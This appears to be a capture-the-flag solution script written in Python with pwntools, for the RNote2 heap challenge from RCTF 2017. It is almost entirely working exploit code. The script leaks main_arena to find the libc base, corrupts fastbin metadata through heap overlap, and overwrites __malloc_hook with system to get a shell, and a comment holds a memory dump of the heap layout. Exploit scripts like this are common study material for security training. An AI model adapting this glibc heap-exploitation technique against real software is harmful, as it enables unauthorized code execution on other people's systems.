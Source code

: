 ```python
    p.sendline(str(index))
    p.recvuntil('content:')
    p.sendline(content)

def expand(index, expand_length, expand_content):
    p.recvuntil('choice:')
    p.sendline('5')
    p.recvuntil('expand?')
    p.sendline(str(index))
    p.recvuntil('expand?')
    p.sendline(str(expand_length))
    p.recvuntil('expand')
    p.sendline(expand_content)

if local:
    p = process('./RNote2')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = remote('rnote2.2017.teamrois.cn', 6666)
    libc = ELF('./libc.so.6')

add(0x100, 'a'*0x10)
add(0x10, 'b'*0xf)
delete(1)
add(1, '')
list()

p.recvuntil('content: ')
p.recvuntil('content: ')
main_arena = u64(p.recvn(6) + '\x00\x00') - 0x10a
print('main_arena is ' + hex(main_arena))

if local:
    libc_base = main_arena - 0x10 - libc.symbols['__malloc_hook']
else:
    libc_base = main_arena - 0x10 - libc.symbols['__malloc_hook'] + 0x20
print('libc base is ' + hex(libc_base))

system_addr = libc_base + libc.symbols['system']

add(0x60, p64(0)*3 + p64(0x21))
expand(2, 0x15, 'b'* 0x12 + '\x51\x00')
add(1, '')
delete(3)

"""
0x55847781a050: 0x6262626262626262  0x51
0x55847781a060: 0x0 0x60
0x55847781a070: 0x55847781a100  0x55847781a010
0x55847781a080: 0x55847781a090  0x71
0x55847781a090: 0x0 0x0
0x55847781a0a0: 0x0 0x21
"""

fake_fastbin = libc_base + libc.symbols['__malloc_hook'] - 0x20 + 5 - 8
payload = 'a'*0x28 + p64(0x71) + p64(fake_fastbin)
add(0x40, payload)

add(0x60, "/bin/sh\x00")
add(0x60, 'a'*11 + p64(system_addr)*2)
#gdb.attach(p, open('debug'))

p.recvuntil('choice:')
```